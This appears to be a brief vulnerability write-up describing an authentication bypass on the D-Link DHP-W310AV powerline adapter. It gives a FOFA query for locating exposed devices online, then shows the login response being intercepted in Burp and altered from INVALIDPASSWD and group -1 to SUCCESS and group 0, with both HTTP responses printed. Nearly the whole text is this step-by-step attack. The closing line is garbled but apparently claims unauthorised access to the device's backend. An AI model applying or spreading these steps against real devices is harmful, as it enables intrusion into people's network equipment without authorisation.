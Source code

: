 ## supplier
[support.dlink.com](https://support.dlink.com/)
## describe
We can use fofa to find the asset of this device.
app="D_Link-无线电力猫"
![](image-20250127150542675.png)
We need to capture the login packet when entering the password, and then intercept the return packet.(Burp:Reponse to the request)
```
HTTP/1.1 200 OK
Server: Linux, HTTP/1.1, DHP-W310AV Ver 1.04
Date: Fri, 28 Jan 2000 22:00:30 GMT
Connection: close
Content-Type: text/xml
Content-Length: 168

<?xml version="1.0" encoding="utf-8"?>
<report>
	<RESULT>INVALIDPASSWD</RESULT>
	<REASON></REASON>
	<AUTHORIZED_GROUP>-1</AUTHORIZED_GROUP>
	<PELOTA></PELOTA>
</report>
```
I need to change INVALIDPASSWD to SUCCESS and -1 to 0.
```
HTTP/1.1 200 OK
Server: Linux, HTTP/1.1, DHP-W310AV Ver 1.04
Date: Fri, 28 Jan 2000 22:00:30 GMT
Connection: close
Content-Type: text/xml
Content-Length: 168

<?xml version="1.0" encoding="utf-8"?>
<report>
	<RESULT>SUCCESS</RESULT>
	<REASON></REASON>
	<AUTHORIZED_GROUP>0</AUTHORIZED_GROUP>
	<PELOTA></PELOTA>
</report>
```
Forward
![](image-20250127150952119.png)
In the end, I was not authorized to access the backend.
